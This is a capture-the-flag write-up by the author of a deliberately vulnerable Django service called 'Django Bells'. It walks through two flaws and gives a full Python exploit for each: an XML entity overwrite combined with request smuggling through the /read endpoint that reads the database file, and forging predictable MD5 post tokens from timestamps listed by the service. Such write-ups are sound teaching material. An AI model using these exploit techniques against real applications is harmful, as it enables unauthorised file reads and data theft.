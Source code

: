 # Django Bells Writeup

## 1. Service Description

### 1.1 First look (Webpage):

It's a pretty easy service to explore because it does not have a lot of functionality. When we first vist `http://<ip>:8000` we see a wish submit page. Other than that we can also find a `/list` endpoint and an endpoint after submitting a wish that looks like `/read/<post_id>/<post_token>` where `post_token` is a secret string for each post.

### 1.2 Second look (Source Code):

If we take a look at the source code we see that the service has an api "backend" and a "frontend" that interacts with that api. In the code we see that there is also a `/report` endpoint.

## 2. Service Functionality

If we look at how the service works in-depth then we see that when we create a post the browser sends a request to `/create?post_data=<data>` and then sends that `data` to the api backend. After that, the user is redirected to their wish at `/read/<post_id>/<post_token>`. After the post is made the server also send a report to the api backend telling it that it created a post. We can also list posts which basically just asks the database for the posts, gets their id, timestamp and lists them to the user and replaces the wish with `****`.

## 3. Exploits

### First Exploit

If we look at how the report works we see that it uses `xml` and `base64` to make sure that the data in the right format. If we take a look into how the `xml` works we see that it is a custom parser that seems buggy as hell. Reading through it one can find this:
```py
try:
    with open(path, "rb") as f:
        file_s = repr(f.read())    
except Exception as e:
    pass
self.xe["&" + name + ";"] = file_s
```
but there are two problems: Firstly because the XML object is initalized as `secure=true`, meaning whenever we try to add any new entities to the xml structure we raise a XMLException:
```py
def replace(self, value, key):
        if self.secure and len(self.xe) > 5:
            raise XMLException
        return value.replace(key, self.xe[key])
```
Secondly, we don't have control over the XML string on the frontend and we can not directly access the `api` backend.
The key to the first problem is that we see that the service just checks the length meaning if we don't create any new entities we can still use them. So let's just overwrite one of the default entities like `&amp` and use that. Thats the first part. But there is still the problem with not having access to the api endpoint. We can bypass this by looking at how the frontend connects to the backend (settings.py): 
```py
def make_api_call(request,endpoint):
    api = get_api_host(request)
    url = "http://" + api + "/api/" + endpoint
    r = requests.get(unquote(url))
    return r.text
```
We see that the service uses the requests module. So how about we use the `/read` endpoint and try to smuggle another valid request through the `read` to `report`. This is exactly how it works. Now combining all this and reading the `db.sqlite3` file, so we have access to all flags, we get this:
```py
import base64
import urllib.parse
import urllib.request
import sys

exploit_xml = """
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY gt SYSTEM "file://db.sqlite3">
]>
<report>
<id>&gt;</id>
<reason>Sample Reason</reason>
</report>
"""

PORT = 8000


def exploit(target):
    exploit_xml_b64 = base64.b64encode(exploit_xml.encode('utf-8'))
    exploit_xml_b64_url = urllib.parse.quote(exploit_xml_b64.decode('utf-8'), safe='')
    exploit_xml_finished = f"report/?report={exploit_xml_b64_url}#"
    exploit_xml_to_send_pre = urllib.parse.quote(exploit_xml_finished, safe='')
    exploit_xml_to_send = urllib.parse.quote(exploit_xml_to_send_pre, safe='')

    db_output = urllib.request.urlopen(f"http://{target}:{PORT}/read/{exploit_xml_to_send}/loremipsum").read()
    print(db_output)


if __name__ == '__main__':
    exploit(sys.argv[1] if len(sys.argv) > 1 else 'localhost')
```

### Second Exploit

The second exploit can be pretty tricky to spot but other than that pretty easy. If we take a look into how the server creates the secret tokens for wishes / posts we see that it uses the `token.py` file in the `/util` folder. If we look at how the code is called then we see that the order in the object creation is the wrong way around:
```py
def __init__(self, nonce, time_stamp):
        self.nonce = nonce
        self.time_stamp = time_stamp
```
```py
tok = Token(stamp, nonce).create_token()
```
This means we can use the `/list` endpoint to retrieve the id and time stamp of a post and then use the `token.py` library to reverse the secret token of the posts. After that we can just use the `/read` endpoint to read the post and get the flag. The exploit will look like this then:
```py
import urllib.parse
import urllib.request
import sys
import re
import hashlib

PORT = 8000


def exploit(target):
    url = f"http://{target}:{PORT}"

    listed_posts = urllib.request.urlopen(f"{url}/list").read().decode('utf-8')
    # example for just the latest post
    id = re.findall(r"ID:.+?> (.+?)<", listed_posts)[0]
    timestamp = re.findall(r"Timestamp: .+?(\d+)", listed_posts)[0]
    token = hashlib.md5(str(timestamp).encode("utf-8")).hexdigest()
    post = urllib.request.urlopen(f"{url}/read/{id}/{token}").read()
    print(post)


if __name__ == '__main__':
    exploit(sys.argv[1] if len(sys.argv) > 1 else 'localhost')
```
Both exploits written by `NukeOffical`

## Closing Words:

This was my first CTF service so I hope you all had fun exploiting it. I would love to see some writeups of other people. So that's it. 


